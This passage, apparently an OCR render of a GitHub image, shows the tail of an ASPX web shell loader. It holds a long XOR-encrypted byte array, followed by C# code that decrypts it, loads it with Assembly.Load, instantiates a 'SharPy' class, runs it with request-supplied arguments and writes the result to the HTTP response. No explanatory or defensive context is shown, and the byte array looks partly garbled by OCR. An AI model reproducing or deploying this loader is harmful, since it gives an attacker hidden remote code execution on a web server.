 ```
66,0x5b,0x31,0x66,0x31,0x32,0x30,0x4b,0x37,0x60,0x66,0x38,0x35,0x29,0x32,0x4,0x30,0x5,0x66,0x59,0x38,0x55,0x38,0x20,0x32,0x5d,0x39,0x11,0x61,0x1f,0x34,0x43,0x30,0xa,0x34,0x4,0x35,0x50,0x62,0x4d,0x64,0x31,0x31,0x42,0x32,0x63,0x39,0x3f,0x34,0x2e,0x32,0x34,0x64,0x79,0x35,0x40,0x31,0xc,0x65,0x53,0x63,0xa,0x37,0x5a,0x66,0x56,0x31,0xa,0x31,0x74,0x30,0xa,0x37,0xe,0x66,0x5c,0x35,0xb,0x32,0x0,0x30,0xf,0x66,0x5d,0x38,0x39,0x38,0x11,0x32,0x47,0x39,0xf,0x61,0x12,0x34,0x58,0x30,0xe,0x34,0x6,0x35,0x67,0x62,0x5a,0x64,0x5e,0x31,0xf,0x32,0x13,0x39,0xa,0x34,0x5b,0x32,0x50,0x64,0x44,0x35,0x6d,0x31,0x1d,0x65,0x5b,0x63,0x11,0x37,0x1a,0x66,0x53,0x31,0xa,0x31,0x5e,0x30,0x63,0x37,0x62,0x66,0xd,0x35,0x6d,0x32,0x60,0x30,0x32,0x66,0x4a,0x38,0x56,0x38,0x7,0x32,0x47,0x39,0x2,0x61,0x12,0x34,0x67,0x30,0x6,0x34,0x11,0x35,0x4b,0x62,0x50,0x64,0x5e,0x31,0xc,0x32,0x63,0x39,0x53,0x34,0x19,0x32,0x5,0x64,0x18,0x35,0x2,0x31,0x4b,0x65,0x4,0x63,0x63,0x37,0xc,0x66,0x3f,0x31,0x67,0x31,0x73,0x30,0x10,0x37,0x11,0x66,0x5c,0x35,0x8,0x32,0x3,0x30,0xe,0x66,0x41,0x38,0x19,0x38,0x35,0x32,0x57,0x39,0x13,0x61,0x15,0x34,0x58,0x30,0xc,0x34,0xd,0x35,0x38,0x62,0x9,0x64,0x1f,0x31,0x52,0x32,0x4d,0x39,0x53,0x34,0x19,0x32,0x5,0x64,0x36,0x35,0x32,0x31,0x65,0x65,0x34,0x63,0x63,0x37,0x34,0x66,0x37,0x31,0x66,0x31,0x32,0x30,0x63,0x37,0x62,0x66,0x39,0x35,0x65,0x32,0x61,0x30,0x62,0x66,0x38,0x38,0x39,0x38,0x63,0x32,0x32,0x39,0x61,0x61,0x66,0x34,0x31,0x30,0x63,0x34,0x63,0x35,0x38,0x62,0x39,0x64,0x31,0x31,0x62,0x32,0x63,0x39,0x63,0x34,0x37,0x32,0x35,0x64,0x36,0x35,0x32,0x31,0x65,0x65,0x34,0x63,0x63,0x37,0x34,0x66,0x37,0x31,0x66,0x31,0x32,0x30,0x63,0x37,0x62,0x66,0x39,0x35,0x65,0x32,0x61,0x30,0x62,0x66,0x38,0x38,0x39,0x38,0x63,0x32,0x32,0x39,0x61,0x61,0x66,0x34,0x31,0x30,0x63,0x34,0x63,0x35,0x38,0x62,0x39,0x64,0x31,0x31,0x62,0x32,0x63,0x39,0x63,0x34,0x37,0x32,0x35,0x64,0x36,0x35,0x32,0x31,0x65,0x65,0x34,0x63,0x63,0x37,0x34,0x66,0x37,0x31,0x66,0x31,0x32,0x30,0x63,0x37,0x62,0x66,0x39,0x35,0x65,0x32,0x61,0x30,0x62,0x66,0x38,0x38,0x39,0x38,0x63,0x32,0x32,0x39,0x61,0x61,0x66,0x34,0x31,0x30,0x63,0x34,0x63,0x35,0x38,0x62,0x39,0x64,0x31,0x31,0x62,0x32,0x63,0x39,0x63,0x34,0x37,0x32,0x35,0x64,0x36,0x35,0x32,0x31,0x65,0x65,0x34,0x63,0x63,0x37,0x34,0x66,0x37,0x31,0x66,0x31,0x32,0x30,0x63,0x37,0x62,0x66,0x39,0x35,0x65,0x32,0x61,0x30,0x62,0x66,0x38,0x38,0x39,0x38,0x63,0x32,0x32,0x39,0x61,0x61,0x66,0x34,0x31,0x30,0x63,0x34,0x63,0x35,0x38,0x62,0x39,0x64,0x31,0x31,0x62,0x32,0x63,0x39,0x63,0x34,0x37,0x32,0x35,0x64,0x36,0x35,0x32,0x31,0x65,0x65,0x34,0x63,0x63,0x37,0x34,0x66,0x37,0x31,0x66,0x31,0x32,0x30,0x63,0x37,0x62,0x66,0x39,0x35,0x65,0x32,0x61,0x30,0x62,0x66,0x38,0x38,0x39,0x38,0x63,0x32,0x32,0x39,0x61,0x61,0x66,0x34,0x31,0x30,0x63,0x34,0x63,0x15,0x38,0x62,0x35,0x64,0x31,0x31,0xe2,0xb,0x63,0x39,0x63,0x34,0x37,0x32,0x35,0x64,0x36,0x35,0x32,0x31,0x65,0x65,0x34,0x63,0x63,0x37,0x34,0x66,0x37,0x31,0x66,0x31,0x32,0x30,0x63,0x37,0x62,0x66,0x39,0x35,0x65,0x32,0x61,0x30,0x62,0x66,0x38,0x38,0x39,0x38,0x63,0x32,0x32,0x39,0x61,0x61,0x66,0x34,0x31,0x30,0x63,0x34,0x63,0x35,0x38,0x62,0x39,0x64,0x31,0x31,0x62,0x32,0x63,0x39,0x63,0x34,0x37,0x32,0x35,0x64,0x36,0x35,0x32,0x31,0x65,0x65,0x34,0x63,0x63,0x37,0x34,0x66,0x37,0x31,0x66,0x31,0x32,0x30,0x63,0x37,0x62,0x66,0x39,0x35,0x65,0x32,0x61,0x30,0x62,0x66,0x38,0x38,0x39,0x38,0x63,0x32,0x32,0x39,0x61,0x61,0x66,0x34,0x31,0x30,0x63,0x34,0x63,0x35,0x38,0x62,0x39,0x64,0x31,0x31,0x62,0x32,0x63,0x39,0x63,0x34,0x37,0x32,0x35,0x64,0x36,0x35,0x32,0x31,0x65,0x65,0x34,0x63,0x63,0x37,0x34,0x66,0x37,0x31,0x66,0x31,0x32,0x30,0x63,0x37,0x62,0x66,0x39,0x35,0x65,0x32,0x61,0x30,0x62,0x66,0x38,0x38,0x39,0x38,0x63,0x32,0x32,0x39,0x61,0x61,0x66,0x34,0x31,0x30,0x63,0x34,0x63,0x35,0x38,0x62,0x39,0x64,0x31,0x31,0x62,0x32,0x63,0x39,0x63,0x34,0x37,0x32,0x35,0x64,0x36,0x35,0x32,0x31,0x65,0x65,0x34,0x63,0x63,0x37,0x34,0x66,0x37,0x31,0x66,0x31,0x32,0x30,0x63,0x37,0x62,0x66,0x39,0x35,0x65,0x32,0x61,0x30,0x62,0x66,0x38,0x38,0x39,0x38,0x63,0x32,0x32,0x39,0x61,0x61,0x66,0x34,0x31,0x30,0x63,0x34,0x63,0x35,0x38,0x62,0x39,0x64,0x31,0x31,0x62,0x32,0x63,0x39,0x63,0x34,0x37,0x32,0x35,0x64,0x36,0x35,0x32,0x31,0x65,0x65,0x34,0x63,0x63,0x37,0x34,0x66,0x37,0x31,0x66,0x31,0x32,0x30,0x63,0x37,0x62,0x66,0x39,0x35,0x65,0x32,0x61,0x30,0x62,0x66,0x38,0x38,0x39,0x38,0x63,0x32,0x32,0x39,0x61,0x61,0x66,0x34,0x31,0x30,0x63,0x34,0x63,0x35,0x38,0x62,0x39,0x64,0x31,0x31,0x62,0x32,0x63,0x39,0x63,0x34,0x37,0x32,0x35,0x64,0x36,0x35,0x32,0x31,0x65,0x65,0x34,0x63,0x63,0x37,0x34,0x66,0x37,0x31,0x66,0x31,0x32,0x30,0x63,0x37,0x62,0x66,0x39,0x35,0x65,0x32,0x61,0x30,0x62,0x66,0x38,0x38,0x39,0x38,0x63,0x32,0x32,0x39,0x61,0x61,0x66,0x34,0x31,0x30,0x63,0x34,0x63,0x35,0x38,0x62,0x39,0x64,0x31,0x31,0x62,0x32,0x63,0x39,0x63,0x34,0x37,0x32,0x35,0x64,0x36,0x35,0x32,0x31,0x65,0x65,0x34,0x63,0x63,0x37,0x34,0x66,0x37,0x31,0x66,0x31,0x32,0x30,0x63,0x37,0x62,0x66,0x39,0x35,0x65,0x32,0x61,0x30,0x62,0x66,0x38,0x38,0x39,0x38,0x63,0x32,0x32,0x39,0x61,0x61,0x66,0x34,0x31,0x30,0x63,0x34,0x63,0x35,0x38,0x62,0x39,0x64,0x31,0x31,0x62,0x32,0x63,0x39,0x63,0x34,0x37,0x32,0x35,0x64,0x36,0x35,0x32,0x31,0x65,0x65,0x34,0x63,0x63,0x37,0x34,0x66,0x37,0x31,0x66,0x31,0x32,0x30,0x63,0x37,0x62,0x66,0x39,0x35,0x65,0x32,0x61,0x30,0x62,0x66,0x38,0x38,0x39,0x38,0x63,0x32,0x32,0x39,0x61,0x61,0x66,0x34,0x31,0x30,0x63,0x34};` `for(int i = 0; i < a.Length; i++) a[i] ^= (byte)p[i % p.Length];` `Assembly aS = Assembly.Load(a);` `object o = aS.CreateInstance("SharPy");` `MethodInfo mi = o.GetType().GetMethod("Run");` `object[] iN = new object[] {r, p};` `object oU = mi.Invoke(o, iN);` `Response.Write(oU);``}``</script>`
```
